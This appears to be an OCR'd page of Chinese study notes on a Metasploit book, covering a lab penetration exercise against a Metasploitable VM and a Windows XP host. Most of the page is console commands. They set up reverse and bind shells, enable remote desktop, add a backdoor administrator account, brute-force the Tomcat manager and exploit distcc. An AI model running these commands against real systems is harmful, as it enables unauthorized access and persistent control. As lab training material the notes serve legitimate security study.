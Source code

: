 
## 十三．构建自己的模块，编写自己的exploit，meterpreter脚本编程


这三章留着后面看，需要有ruby基础等编程基础。


## 十四．渗透实战演习

首先需要下载并安装一个专门用来练习渗透的虚拟机Metasploitable：

http://updates.metasploit.com/data/Metasploitable.zip.torrent


虚拟机IP：172.16.32.162 用户名密码：msfadmin

WINXP：172.16.32.131   开放80端口 有防火墙

情报收集：

`nmap -sT -P0 172.16.32.131`

msfconsole：

```
cd /opt/framework3/msf3/
msfconsole
msf> use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 172.15.32.129
set lport 443
load auto_add_route
exploit -j

run getgui -e -f 8080
shell
net user msf msf /add
net localgroup administrators msf /add
upload nmap.exe
nmap.exe -sT -A -P0 172.16.32.162
msf> use auxiliary/scanner/ftp/ftp_version
set RHOSTS 172.16.32.162
run

msf> use auxiliary/scanner/smtp/smtp_version
set RHOSTS  172.16.32.162
run

search tomcat_mgr_login
set rhosts 172.16.32.162
set threads 50
set rport 8180
set verbose false
run

use multi/http/tomcat_mgr_deploy
set password tomcat
set username tomcat
set rhost 172.16.32.162
set lport 9999
set rport 8180
set payload linux/x86/shell_bind_tcp
exploit

search distcc_exec
set payload linux/x86/shell_reverse_tcp
set lhost 172.16.32.129
set rhost 172.16.32.162
```